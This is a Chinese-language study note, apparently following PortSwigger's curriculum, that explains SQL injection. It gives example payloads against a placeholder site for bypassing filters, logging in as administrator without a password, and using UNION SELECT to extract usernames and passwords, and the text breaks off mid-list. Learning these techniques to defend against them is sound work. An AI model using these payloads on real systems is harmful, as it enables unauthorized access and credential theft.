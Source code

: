> 根据portswigger网站的推荐学习顺序，学习网络安全漏洞

![image-20220113221638178](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221638178.png)

![image-20220113221650975](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221650975.png)

![image-20220113221700751](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220113221700751.png)

![image-20220113221708824](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221708824.png)

# SQL 注入

> SQL injection is an old-but-gold vulnerability responsible for many high-profile data breaches. Although relatively simple to learn, it can potentially be used for some high-severity exploits. This makes it an ideal first topic for beginners, and essential knowledge even for more experienced users.
>
> SQL注入是一个老而弥坚的漏洞，对许多高知名度的数据泄露事件负有责任。虽然学习起来相对简单，但它有可能被用于一些高风险的漏洞。这使得它成为初学者理想的第一个主题，甚至对更有经验的用户来说也是必不可少的知识。

![image-20220114161003494](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220114161003494.png)

SQL注入漏洞允许攻击者干扰应用程序对其数据库的查询。它通常允许攻击者查看通常不能检索的数据，包括其他用户的数据或数据库相关信息。在许多情况下，攻击者可以修改或删除这些数据，导致网站应用程序内容或行为发生==持久性变化==。

在某些情况下，攻击者可以损害底层服务器或其它后端设施或进行拒绝服务攻击。

## 造成SQL注入漏洞的主要原因

前端的数据传入到后端处理时，没有做严格的判断，导致其传输的代码拼接到SQL语句中，被当做SQL语句的一部分执行。

## SQL注入的种类

- 数字型注入
- 字符型注入
- 搜索型注入
- xx型注入
- insert/update注入
- delete注入
- http header注入
- 盲注 base on boolean
- 盲注 base on time
- 宽字节注入

也可以分为

- 修改一个SQL查询返回额外的结果
- 改变SQL查询语句干扰网站应用程序逻辑
- UNION拼接检索不同数据库信息
- 提取罐与数据库的版本和结构的信息
- 盲注，即查询的结果不应在网站返回的响应中

## 详解

### 修改一个SQL查询返回额外的结果

有一个购物网站以不同的种类展示商品，当用户点击商品时，浏览器的URL是

```
https://insecure-website.com/products?category=Gifts
```

这个会调用后端一个SQL语句从数据库中查询信息。

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

这个SQL语句会向数据库中products表请求所有类别是Gifts类别和released列值为1的所有商品信息。

如果网站没有任何针对SQL注入攻击的防御措施，可以构建一个如下语句

```
https://insecure-website.com/products?category=Gifts'--
```

当前端传回至后端执行SQL语句时，

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

--在数据库中被用于注释后面所有内容，这有效的删除了后端构造SQL语句的其余部分，所以可以将released列的限制去除。

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

上面的URL被传入后端的SQL语句是

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

### 改变SQL查询语句干扰网站应用程序逻辑

用户登录界面时，用户通过用户名和密码登陆。以下是可能的SQL语句

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

在已知用户名的情况下，可以通过注释将密码查询注释掉。即

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

该行为可直接作为管理员用户登陆。

### ==UNION拼接检索不同数据库信息==

在网站应用程序返回SQL语句结果时，可以利用SQL注入从数据库中获取其他信息。

使用UNION联合查询执行额外的SELECT语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

执行UNION语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--'
```

查询到了user表中的username和password

#### 要求

- 每个查询必须返回相同数量的列
- 每列中的数据类型必须在各个查询之间兼容

通常需要在构造语句前了解

- 原始查询返回了多少列
- 原始查询的哪些列可以保存注入查询的结果

1. 确定SQL注入UNION攻击所需的列数

   - 使用ORDER BY语句递增，直至发生错误。

     ```mysql
     ' ORDER BY 1--
     ```

     这个有效载荷改变了原始查询语句，以结果集中不同列对结果排序查询。当指定列的索引超过结果集中的实际列数时，数据库将返回错误。

   - 提交一系列有效载荷，指定不同数量的NULL。

     ```sql
     ' UNION SELECT NULL--
     ' UNION SELECT NULL,NULL--
     ' UNION SELECT NULL,NULL,NULL--
     ```

     当NULL与列数不匹配时，数据库将返回错误。

   - ==注意==

     - 使用NULL作为注入SELECT查询的返回值是因为，每列的数据类型必须在原始查询和注入查询之间兼容。NULL可以转换为任意数据类型，当列数正确时，使用NULL可以最大限度提高有效载荷的成功率

     - Oracle上每个SELECT查询都必须使用FROM关键字并指定一个有效的表。在Oracle中有个dual内置表。故查询语句为

       ```sql
       ' union select null from dual--
       ```

     - 在Mysql中--后必须有空格，或直接使用#注释

2. 在SQL注入中通过UNION查找有用数据类型列
   首先需要用

   ```sql
   ' UNION SELECT NULL--
   ' UNION SELECT NULL,NULL--
   ' UNION SELECT NULL,NULL,NULL--
   ```

   确定返回列数。随后通过使用所需类型替换NULL进行测试。
   如

   ```sql
   ' UNION SELECT 'a',NULL,NULL,NULL--
   ' UNION SELECT NULL,'a',NULL,NULL--
   ' UNION SELECT NULL,NULL,'a',NULL--
   ' UNION SELECT NULL,NULL,NULL,'a'--
   ```

   若不兼容，可能返回HTTP错误或数据库查询错误。

   ```sql
   Conversion failed when converting the varchar value 'a' to data type int.
   ```

   若未发生错误则包含一些附加内容（包括注入的字符串）。

3. 通过SQL注入查询特定数据
   当确定了原始SQL语句查询返回的列数和类型时，可以检索特定表中的符合类型的内容

4. 
